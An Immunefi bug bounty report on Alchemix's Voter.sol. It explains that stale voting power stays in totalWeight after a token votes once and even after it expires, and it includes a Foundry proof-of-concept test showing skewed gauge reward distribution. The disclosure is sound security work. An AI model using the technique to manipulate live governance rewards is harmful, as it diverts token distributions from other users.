 
# Wrong totalWeight in Voter.sol

Submitted on Tue May 07 2024 12:39:32 GMT-0400 (Atlantic Standard Time) by @cryptoticky for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30886

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
If the user proceeds with the vote only once and does nothing afterwards, the voting power of the user does not decrease and this affects the overall voting result.

## Vulnerability Details
```
/// @inheritdoc IVoter
    function notifyRewardAmount(uint256 amount) external {
        require(msg.sender == minter, "only minter can send rewards");
        require(totalWeight > 0, "no votes");

        _safeTransferFrom(base, msg.sender, address(this), amount); // transfer rewards in

        uint256 _ratio = (amount * 1e18) / totalWeight; // 1e18 adjustment is removed during claim

        if (_ratio > 0) {
            index += _ratio;
        }

        emit NotifyReward(msg.sender, base, amount);
    }
```
```
function _updateFor(address _gauge) internal {
        require(isGauge[_gauge], "invalid gauge");

        address _pool = poolForGauge[_gauge];
        uint256 _supplied = weights[_pool];
        if (_supplied > 0) {
            uint256 _supplyIndex = supplyIndex[_gauge];
            uint256 _index = index; // get global index0 for accumulated distro
            supplyIndex[_gauge] = _index; // update _gauge current position to global position
            uint256 _delta = _index - _supplyIndex; // see if there is any difference that need to be accrued
            if (_delta > 0) {
                uint256 _share = (uint256(_supplied) * _delta) / 1e18; // add accrued difference for each supplied token
                claimable[_gauge] += _share;
            }
        } else {
            supplyIndex[_gauge] = index;
        }
    }
```
In this protocol, votingPower linearly decreases over time. However, if no action for the tokenId is taken after the first vote, the votingPower of that token remains within totalWeight and weights. This directly affects _ratio within the Voter.notifyRewardAmount function. It also impacts claimable in the Voter._updateFor function.

When the Voter.distribute function is called, newly minted ALCX tokens are distributed to each gauge according to the voting results. 

Ultimately, the voting results differ from what was intended, which affects the distribution of ALCX tokens. 

Even if a token expires, this phenomenon continues. 

## Impact Details
The governance voting results are manipulated, leading to a direct deviation from the intended impact of the original results.
        
## Proof of concept
## Proof of Concept

```
// SPDX-License-Identifier: GPL-3
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract VoterPoC is BaseTest {
    uint256 constant DURATION = 2 weeks;
    uint256 constant SECONDS_PER_BLOCK = 12;
    uint256 public epochTime;
    uint256 public epochBlock;

    address public sushiBribeAddress;
    address public balancerBribeAddress;

    function setUp() public {
        setupContracts(block.timestamp);
        epochTime = minter.activePeriod();
        epochBlock = block.number;
    }

    function goNextEpoch() private {
        epochTime = epochTime + DURATION;
        epochBlock = epochBlock + DURATION / 12;
        hevm.warp(epochTime);
        hevm.roll(epochBlock);

        sushiBribeAddress = voter.bribes(address(sushiGauge));
        balancerBribeAddress = voter.bribes(address(balancerGauge));

    }

    function testBugTotalWeight() public {
        address[] memory poolsOfAdmin = new address[](1);
        poolsOfAdmin[0] = sushiPoolAddress;
        address[] memory poolsOfBeef = new address[](1);
        poolsOfBeef[0] = balancerPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 10_000;


        uint256 nonActiveTokenId = createVeAlcx(admin, TOKEN_1 * 1000, MAXTIME, false);

        // go epoch 1
        goNextEpoch();

        // To call Minter.updatePeriod(). but not send reward token to Voter
        voter.distribute();


        hevm.prank(admin);
        voter.vote(nonActiveTokenId, poolsOfAdmin, weights, 0);

        uint256 totalWeight0 = voter.totalWeight();

        hevm.warp(block.timestamp + MAXTIME / 2);
        voter.distribute();


        uint256 totalWeight1 = voter.totalWeight();

        // ==================== General voting =======================
        // if user does nothing, Voter.totalWeight is not changed.
        assertEq(totalWeight0, totalWeight1, "The code is correct");

        uint256 outPutTokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        uint256 userTokenId = createVeAlcx(beef, TOKEN_1, MAXTIME, false);

        hevm.prank(admin);
        voter.vote(outPutTokenId, poolsOfAdmin, weights, 0);

        hevm.prank(beef);
        voter.vote(userTokenId, poolsOfBeef, weights, 0);

        uint256 period = minter.activePeriod();
        hevm.warp(period + nextEpoch);
        voter.distribute();

        address[] memory gauges = new address[](2);
        gauges[0] = address(sushiGauge);
        gauges[1] = address(balancerGauge);

        voter.updateFor(gauges);

        // be expected claimable amount for sushiGauge = claimable amount for balancerGauge
        uint256 claimableForSushi = voter.claimable(address(sushiGauge));
        uint256 claimableForBalancer = voter.claimable(address(balancerGauge));
        console.log(claimableForSushi);
        console.log(claimableForBalancer);

        // claimableForSushi > claimableForBalancer
        assertGt(claimableForSushi, claimableForBalancer, "claimable amount is equal");
        console.log("compare claimable: ", claimableForSushi / claimableForBalancer);
        // that shows 944
        // ================================================================

        period = minter.activePeriod();
        hevm.warp(period + nextEpoch);

        hevm.prank(admin);
        voter.reset(outPutTokenId);

        hevm.prank(beef);
        voter.reset(userTokenId);

        totalWeight1 = voter.totalWeight();
        assertEq(totalWeight0, totalWeight1, "totalWeight0 != totalWeight2");

        epochTime = epochTime + MAXTIME + DURATION;
        hevm.warp(epochTime);
        // at this time, the nonActiveTokenId is expired
        // but the totalWeight is kept the votingPower of the token when the token is created
        // the general vote will be continue ... and the expired votingPower affects the token distribution for gauges.
        // this TOKEN will have to be locked during MAXTIME at this point in order to get such a voting powers,
        // but the user can always withdraw at any time.
        totalWeight1 = voter.totalWeight();
        assertEq(totalWeight0, totalWeight1, "totalWeight0 != totalWeightAtExpiredTime");
    }
}
```